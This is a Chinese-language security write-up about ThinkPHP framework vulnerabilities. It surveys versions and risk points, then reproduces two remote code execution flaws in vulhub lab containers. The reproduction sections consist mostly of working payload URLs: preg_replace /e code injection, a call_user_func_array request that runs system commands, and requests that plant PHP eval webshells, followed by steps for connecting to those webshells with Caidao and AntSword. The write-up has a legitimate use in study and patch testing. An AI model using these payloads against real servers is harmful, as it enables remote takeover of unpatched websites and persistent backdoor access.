# 0x01 组件介绍

## 1.1 基本信息

ThinkPHP是一个快速、兼容而且简单的轻量级国产PHP开发框架，遵循Apache 2开源协议发布，使用面向对象的开发结构和MVC模式，融合了Struts的思想和TagLib（标签库）、RoR的ORM映射和ActiveRecord模式。

ThinkPHP可以支持windows/Unix/Linux等服务器环境，正式版需要PHP 5.0以上版本，支持MySql、PgSQL、Sqlite多种数据库以及PDO扩展。

## 1.2 版本介绍

ThinkPHP发展至今，核心版本主要有以下几个系列，ThinkPHP 2系列、ThinkPHP 3系列、ThinkPHP 5系列、ThinkPHP 6系列，各个系列之间在代码实现及功能方面，有较大区别。其中ThinkPHP 2以及ThinkPHP 3系列已经停止维护，ThinkPHP 5系列现使用最多，而ThinkPHP 3系列也积累了较多的历史用户。版本细分如下图所示：

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202630881-1122680534.png)

# 0x02 高危漏洞介绍

通过对ThinkPHP漏洞的收集和整理，过滤出其中的高危漏洞，可以得出如下列表：

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202706861-1740606751.png)


从上表数据来看，ThinkPHP 3系列版本的漏洞多是2016/2017年被爆出，而ThinkPHP 5系列版本的漏洞基本为2017/2018年被爆出，从2020年开始，ThinkPHP 6系列的漏洞也开始被挖掘。

从中可以看出，ThinkPHP近年出现的高风险漏洞主要存在于框架中的函数，这些漏洞均需要在二次开发的过程中使用了这些风险函数方可利用，所以这些漏洞更应该被称为框架中的风险函数，且这些风险点大部分可导致SQL注入漏洞，所以，开发者在利用ThinkPHP进行Web开发的过程中，一定需要关注这些框架的历史风险点，尽量规避这些函数或者版本，则可保证web应用的安全性。

# 0x03 漏洞利用链

## 3.1 暴露面梳理

根据ThinkPHP的历史高危漏洞，梳理出分版本的攻击风险点，开发人员可根据以下图标，来规避ThinkPHP的风险版本，如下ThinkPHP暴露面脑图。

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202828226-1632208246.png)

## 3.2 利用链总结

基于暴露面脑图，我们可以得出几种可以直接利用的ThinkPHP框架漏洞利用链，不需要进行二次开发。

### 3.2.1 ThinkPHP 2.x/3.0 GetShell

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202846978-632186751.png)

ThinkPHP 低于3.0 - GetShell

ThinkPHP 低版本可以使用以上漏洞执行任意系统命令，获取服务器权限。

### 3.2.2 ThinkPHP 5.0 GetShell

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202858742-1691585409.png)

ThinkPHP 5.0.x - GetShell

首先明确ThinkPHP框架系列版本。

根据ThinkPHP版本，如是0.x版本，即可使用ThinkPHP 5.x远程代码执行漏洞，无需登录，即可执行任意命令，获取服务器最高权限。

### 3.2.3 ThinkPHP 5.1 GetShell

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202924214-752030668.png)

ThinkPHP 5.1.x - GetShell

首先明确ThinkPHP框架系列版本。

根据ThinkPHP版本，如是1.x版本，即可使用ThinkPHP 5.x远程代码执行漏洞1，无需登录，即可执行任意命令，获取服务器最高权限。

如需使用ThinkPHP 5.x远程代码执行漏洞2，则需要php文件中跳过报错提示，即 文件中有语句：“error_reporting(0);”，故该漏洞在5.1.x系列版本利用需要满足以上前提，利用较难。

# 0x04 高危利用漏洞分析

从高危漏洞列表中，针对ThinkPHP不需二次开发即可利用的高危漏洞进行深入分析。

从高危漏洞列表中，针对ThinkPHP不需二次开发即可利用的高危漏洞进行深入分析。

## 4.1 ThinkPHP 2.x/3.0远程代码执行漏洞

### 4.1.1 漏洞概要

漏洞名称：ThinkPHP 2.x/3.0远程代码执行

参考编号：无

威胁等级：高危

影响范围：ThinkPHP 2.x/3.0

漏洞类型：远程代码执行

利用难度：简单

### 4.1.2 漏洞描述

ThinkPHP是为了简化企业级应用开发和敏捷WEB应用开发而诞生的开源MVC框架。Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

### 4.1.3 漏洞分析

漏洞存在在文件 /ThinkPHP/Lib/Think/Util/Dispatcher.class.php 中，ThinkPHP 2.x版本中使用preg_replace的/e模式匹配路由，我们都知道，preg_replace的/e模式，和php双引号都能导致代码执行的，即漏洞触发点在102行的解析url路径的preg_replace函数中。代码如下：

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202943157-788866922.png)

该代码块首先检测路由规则，如果没有制定规则则按照默认规则进行URL调度，在preg_replace()函数中，正则表达式中使用了/e模式，将“替换字符串”作为PHP代码求值，并用其结果来替换所搜索的字符串。

正则表达式可以简化为“\w+/([^/])”，即搜索获取“/”前后的两个参数，$var[‘\1’]=”\2”;是对数组的操作，将之前搜索到的第一个值作为新数组的键，将第二个值作为新数组的值，我们发现可以构造搜索到的第二个值，即可执行任意PHP代码，在PHP中，我们可以使用${}里面可以执行函数，然后我们在thinkphp的url中的偶数位置使用${}格式的php代码，即可最终执行thinkphp任意代码执行漏洞，如下所示：

 

```plain
index.php?s=a/b/c/${code}
index.php?s=a/b/c/${code}/d/e/f
index.php?s=a/b/c/d/e/${code}
```


由于ThinkPHP存在两种路由规则，如下所示

1. http://serverName/index.php/模块/控制器/操作/[参数名/参数值...
2. 如果不支持PATHINFO的服务器可以使用兼容模式访问如下：
3. http://serverName/index.php?s=/模块/控制器/操作/[参数名/参数值...]

也可采用 index.php/a/b/c/${code}一下形式。

**分析：**[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/people/223149.html)

### 4.1.4 漏洞复现

#### 环境搭建 

```plain
/vulhub/thinkphp/2-rce
docker-compose up -d
```

 [](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224202959957-781239462.png)


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203010189-667902804.png)

#### 验证漏洞

```plain
http://192.168.1.21:8080/index.php?s=/index/index/name/${@phpinfo()}
http://192.168.1.21:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D)}
```


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203022642-2024841357.png)

#### 工具利用 

ThinkphpGUI 2020HackingClub线下典藏版

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203044863-1937443136.png)

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203112884-159295807.png)

使用工具不能getshell

上传一句话木马

http://192.168.1.21:8080/index.php?s=a/b/c/${@print(eval($_POST[1]))}

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203139515-412932237.png)

菜刀连接

http://192.168.1.21:8080/index.php?s=a/b/c/${@print(eval($_POST[1]))} 密码1

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203155153-116953991.png)

蚁剑连接

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203207129-775220279.png)

## 4.2 ThinkPHP 5.x 远程代码执行漏洞1

### 4.2.1 漏洞概要

漏洞名称：ThinkPHP 5.0.x-5.1.x 远程代码执行漏洞

参考编号：无

威胁等级：严重

影响范围：ThinkPHP v5.0.x < 5.0.23,ThinkPHP v5.1.x < 5.0.31

漏洞类型：远程代码执行

利用难度：容易

### 4.2.2 漏洞描述

2018年12月10日，ThinkPHPv5系列发布安全更新，修复了一处可导致远程代码执行的严重漏洞。此次漏洞由ThinkPHP

v5框架代码问题引起，其覆盖面广，且可直接远程执行任何代码和命令。电子商务行业、金融服务行业、互联网游戏行业等网站使用该ThinkPHP框架比较多，需要格外关注。由于ThinkPHP
v5框架对控制器名没有进行足够的安全检测，导致在没有开启强制路由的情况下，黑客构造特定的请求，可直接进行远程的代码执行，进而获得服务器权限。

### 4.2.3 漏洞分析

本次ThinkPHP 
5.0的安全更新主要是在library/think/APP.php文件中增加了对控制器名的限制，而ThinkPHP 
5.1的安全更新主要是在library/think/route/dispatch/Module.php文件中增加了对控制器名的限制。


**分析过程：**[ThinkPHP 5.x RCE分析_0verWatch的博客-CSDN博客_rce分析](https://blog.csdn.net/u011377996/article/details/87362329)

### 4.2.4 漏洞复现

#### 环境搭建 

```plain
/vulhub/thinkphp/5-rce
docker-compose up -d
```


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203220866-849111843.png)

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203233411-763067574.png)

#### 验证漏洞 

```plain
http://192.168.1.21:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1%20and%20it%27ll%20execute%20the%20phpinfo
```


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203246915-498624312.png)

任意代码执行

```plain
http://192.168.1.21:8080/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203306469-951466578.png)

写入webshell

```plain
<?php eval($_POST[zcc]);?> #需要进行url编码

http://192.168.1.21:8080/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zcc.php&vars[1][]=%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%7a%63%63%27%5d%29%3b%3f%3e
```

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203316460-1608957796.png)

连接 http://192.168.1.21:8080/zcc.php 密码 zcc


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203328583-1052078272.png)

工具检测

[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203705767-1897579213.png)


[](https://img2020.cnblogs.com/blog/1863419/202112/1863419-20211224203349426-519335841.png)

